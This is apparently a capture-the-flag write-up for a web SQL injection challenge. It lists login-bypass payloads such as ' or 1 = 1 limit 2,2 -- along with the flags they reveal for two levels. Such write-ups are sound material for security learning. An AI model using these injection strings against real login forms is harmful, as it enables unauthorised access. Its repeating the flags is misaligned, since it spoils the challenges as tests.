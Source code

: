 # SQL Injection - 3 - There is Another User... (5)

## Challenge
SQL injection is probably one of the most common vectors of attack for poorly designed websites. 
This page is vulnerable to it. You can use username test and password test if you want to test 
the page before the injection.

## Steps
1. `' or 1 = 1 limit 2,2 -- `

## Documentation
- <a href="http://hwang.cisdept.cpp.edu/swanew/Text/SQL-Injection.htm">SQL Injection</a>

## Flag
`HF-ni3c5f9q5cpd8zc1f2ognd29xiex32uw`

inj - 4 
' or 1 = 1 limit 4,4 --
HF-si4qr0vzpg4kyxn0lizzmn9pcizpw9ae
